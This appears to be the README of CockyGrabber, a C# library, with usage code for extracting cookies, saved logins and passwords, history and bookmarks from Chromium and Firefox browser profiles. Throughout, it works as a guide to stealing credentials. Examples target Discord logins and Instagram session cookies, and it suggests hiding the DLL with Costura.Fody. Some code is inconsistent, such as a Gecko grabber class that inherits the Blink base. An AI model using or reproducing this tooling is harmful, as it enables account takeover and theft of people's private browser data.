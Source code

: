 # Usage

## Importing CockyGrabber

*Note:* You will need to add `System.Data.SQLite` to your project. The package can be downloaded from the [official website](https://system.data.sqlite.org/) or from [NuGet](https://www.nuget.org/packages/System.Data.SQLite/). (In future versions of CockyGrabber, this won't be necessary)

```cs
using CockyGrabber;
using CockyGrabber.Grabbers;
```


## Grabbing Information

### Grabbing Information from Chromium/Blink-based Browsers

Example that shows how to grab Chrome cookies using the `ChromeGrabber`:

```cs
ChromeGrabber grabber = new ChromeGrabber(); // Create Grabber
var cookies = grabber.GetCookies(); // Collect all Cookies with GetCookies()

// Print the Hostname, Name, and Value of every cookie:
foreach (Blink.Cookie cookie in cookies) // Chrome is Blink based so it uses Blink.Cookie
{
    string cookieHostname = cookie.HostKey;
    string cookieName = cookie.Name;
    string cookieValue = cookie.EncryptedValue;
    Console.WriteLine($"{cookieHostname}: {cookieName} = {cookieValue}");
}
```

*To collect browser information of any other Chromium/Blink-based browser just replace `ChromeGrabber` with `OperaGxGrabber`, `BraveGrabber`, or `EdgeGrabber`, and so on...*

### Grabbing Information from Gecko-based Browsers

Example that shows how to grab Chrome cookies using the `FirefoxGrabber`:

```cs
FirefoxGrabber grabber = new FirefoxGrabber(); // Create Grabber
var cookies = grabber.GetCookies(); // Collect all Cookies with GetCookies()

// Print Hostname, Name, and Value of every cookie:
foreach (Gecko.Cookie cookie in cookies) // Firefox is Gecko based so it uses Gecko.Cookie
{
    string cookieHostname = cookie.Host;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname}: {cookieName} = {cookieValue}");
}
```

CockyGrabber can also grab information like Logins, Downloads, Bookmarks and History:

```cs
(GRABBER) grabber = new (GRABBER); // Create Grabber

var bookmarks = grabber.GetBookmarks(); // Collect all Bookmarks with GetBookmarks()
var downloads = grabber.GetDownloads(); // Collect all Downloads with GetDownloads()
var logins = grabber.GetLogins(); // Collect all Logins with GetLogins()
var history = grabber.GetHistory(); // Collect all History with GetHistory()
```

## Grabbing data from multiple Browsers

CockyGrabber provides a `UniversalGrabber` which can be used to grab Cookies, Logins, and such from multiple Browsers.</br>
Here is an example showing how to grab stuff from all Chromium/Blink-browsers:

```cs
UniversalGrabber grabber = new UniversalGrabber(); // Create Grabber

var cookies = grabber.GetAllBlinkCookies(); // Collect the Cookies from all Chromium/Blink based browsers
var logins = grabber.GetAllBlinkLogins(); // Collect the Logins from all Chromium/Blink based browsers
var bookmarks = grabber.GetAllBlinkBookmarks(); // Collect the Bookmarks from all Chromium/Blink based browsers
var history = grabber.GetAllBlinkHistory(); // Collect the History from all Chromium/Blink based browsers
var downloads = grabber.GetAllBlinkDownloads(); // Collect the Downloads from all Chromium/Blink based browsers
```

Gecko-based browsers are not very different from Chromium/Blink-based browsers, so you can use the same code to get data from them:

```cs
UniversalGrabber grabber = new UniversalGrabber(); // Create Grabber

var cookies = grabber.GetAllGeckoCookies(); // Collect the Cookies from all Gecko based browsers
var logins = grabber.GetAllGeckoLogins(); // Collect the Logins from all Gecko based browsers
var bookmarks = grabber.GetAllBlinkBookmarks(); // Collect the Bookmarks from all Gecko based browsers
var history = grabber.GetAllGeckoHistory(); // Collect the History from all Gecko based browsers
var downloads = grabber.GetAllBlinkDownloads(); // Collect the Downloads from all Gecko based browsers
```

## Getting specific data by Headers

Say you want to grab the logins of a specific hostname/website; how would you do it?
You use the `GetLoginsBy()` Method!

Here is an example with the `EdgeGrabber`:

```cs
EdgeGrabber grabber = new EdgeGrabber(); // Create Grabber

// Collect all Discord Logins:
var discord_logins = grabber.GetLoginsBy(Blink.LoginHeader.origin_url, "https://discord.com/login");

// Collect the Logins that have the same password as you specified:
var logins_by_pswd = grabber.GetLoginsBy(Blink.LoginHeader.password_value, "password123");
```

Obviously you can also grab other specific data:

```cs
// Collect all Instagram Cookies:
var instagram_cookies = grabber.GetCookiesBy(Blink.CookieHeader.host_key, ".instagram.com");

// Collect all Google Bookmarks:
var google_bookmarks = grabber.GetBookmarksBy(Blink.CookieHeader.url, "https://google.com");

// ...
```

There are more headers you can use, but the ones I have listed are the most common ones.

> *(A documentation for the Item Headers such as `Blink.LoginHeader` and `Gecko.CookieHeader` will come in near future)*

## Catching Exceptions

CockyGrabber also gives you the option to catch unexpected occurrences like errors:

```cs
try
{
    // Grab them Cookies and Logins:
    var c = grabber.GetCookies();
    var l = grabber.GetLogins();
}
catch (GrabberException e)
{
    // Check Error:
    switch (e.Error)
    {
        case GrabberError.CookiesNotFound: // Cookies weren't found
            Console.WriteLine("ERROR! The Cookie DB couldn't be found!");
            break;
        case GrabberError.LoginsNotFound: // Logins weren't found
            Console.WriteLine("ERROR! The Login DB couldn't be found!");
            break;
        case GrabberError.LocalStateNotFound: // Key wasn't found
            Console.WriteLine("ERROR! The 'Local State' file couldn't be found!");
            break;
    }
    Console.WriteLine("Original Exception: " + e);
}
```

## Adding Custom Browsers

If you want to add support for a new browser, you can do it by adding a new grabber class that inherits from `BlinkGrabber` or `GeckoGrabber`. After crating the class you will need to specify the browser's paths to the databases and files.

### CustomBlinkGrabber Example

```cs
public class CustomBlinkGrabber : BlinkGrabber
{
    public override string CookiePath
    {
        get
        {
            // This is the path to the Cookie Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\Cookies";
        }
    }
    public override string LocalStatePath
    {
        get
        {
            // This is the path to the 'Local State' file of the browser
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Local State";
        }
    }
    public override string LoginDataPath
    {
        get
        {
            // This is the path to the Login Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\Login Data";
        }
    }
    public override string HistoryPath
    {
        get
        {
            // This is the path to the History Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\History";
        }
    }
    public override string BookmarkPath
    {
        get
        {
            // This is the path to the Bookmark Database
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Default\\Bookmarks";
        }
    }
}
```

### CustomGeckoGrabber Example

```cs
public class CustomGeckoGrabber : BlinkGrabber
{
    public override string ProfilesPath
    {
        get
        {
            // This is the path to the Profiles folder of the browser
            return $"C:\\Users\\{Environment.UserName}\\AppData\\Local\\CustomBrowser\\Profiles";
        }
    }
}
```

## Know Error

A list of easy-to-fix issues

### Error SQLite

Output: `Unable to load DLL SQLite.Interop.dll`

If this error occurs, the nuget package [System.Data.SQLite](https://www.nuget.org/packages/System.Data.SQLite) must be reinstalled. 

To hide the DLL you can use [Costura.Fody](https://www.nuget.org/packages/Costura.Fody).
